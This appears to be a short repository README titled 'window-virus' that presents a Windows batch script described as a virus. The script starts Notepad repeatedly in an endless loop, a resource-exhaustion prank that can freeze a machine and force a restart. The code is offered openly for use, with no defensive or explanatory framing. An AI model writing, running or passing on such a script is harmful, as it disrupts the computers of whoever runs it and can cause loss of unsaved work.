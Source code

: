 # window-virus
# It is a virus for windows using notepad to run any app in infinite loop
@echo off
 :LoopStart
    start Notepad.exe
    goto LoopStart
    
